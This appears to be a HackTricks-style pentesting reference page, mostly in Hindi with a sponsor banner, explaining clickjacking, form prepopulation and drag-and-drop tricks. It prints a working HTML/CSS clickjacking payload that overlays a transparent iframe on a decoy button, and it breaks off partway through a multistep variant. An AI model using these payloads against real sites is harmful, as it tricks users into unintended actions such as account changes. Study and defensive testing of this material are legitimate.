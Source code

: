 \
Use [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_term=trickest\&utm_content=clickjacking) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=clickjacking" %}

## What is Clickjacking

एक क्लिकजैकिंग हमले में, एक **उपयोगकर्ता** को एक वेबपृष्ठ पर एक **तत्व** पर **क्लिक** करने के लिए **धोखा** दिया जाता है जो या तो **अदृश्य** होता है या एक अलग तत्व के रूप में छिपा होता है। यह हेरफेर उपयोगकर्ता के लिए अनपेक्षित परिणामों का कारण बन सकता है, जैसे कि मैलवेयर का डाउनलोड होना, दुर्भावनापूर्ण वेब पृष्ठों पर पुनर्निर्देशन, क्रेडेंशियल या संवेदनशील जानकारी का प्रावधान, पैसे का हस्तांतरण, या उत्पादों की ऑनलाइन खरीदारी।

### Prepopulate forms trick

कभी-कभी एक पृष्ठ लोड करते समय **GET पैरामीटर का उपयोग करके एक फॉर्म के फ़ील्ड के मान को भरना संभव होता है**। एक हमलावर इस व्यवहार का दुरुपयोग करके एक फॉर्म को मनमाने डेटा से भर सकता है और क्लिकजैकिंग पेलोड भेज सकता है ताकि उपयोगकर्ता बटन सबमिट दबाए।

### Populate form with Drag\&Drop

यदि आपको उपयोगकर्ता से **एक फॉर्म भरवाने** की आवश्यकता है लेकिन आप सीधे उससे कुछ विशिष्ट जानकारी (जैसे ईमेल और या विशिष्ट पासवर्ड जो आप जानते हैं) लिखने के लिए नहीं कहना चाहते, तो आप बस उससे **Drag\&Drop** करने के लिए कह सकते हैं कुछ ऐसा जो आपके नियंत्रित डेटा को लिखे जैसे [**इस उदाहरण**](https://lutfumertceylan.com.tr/posts/clickjacking-acc-takeover-drag-drop/) में।

### Basic Payload
```markup
<style>
iframe {
position:relative;
width: 500px;
height: 700px;
opacity: 0.1;
z-index: 2;
}
div {
position:absolute;
top:470px;
left:60px;
z-index: 1;
}
</style>
<div>Click me</div>
<iframe src="https://vulnerable.com/email?email=asd@asd.asd"></iframe>
```
### मल्टीस्टेप पेलोड
```markup
<style>
iframe {
position:relative;
width: 500px;
height: 500px;
opacity: 0.1;
z-index: 2;
}
.firstClick, .secondClick {
position:absolute;
top:330px;
left:60px;
```
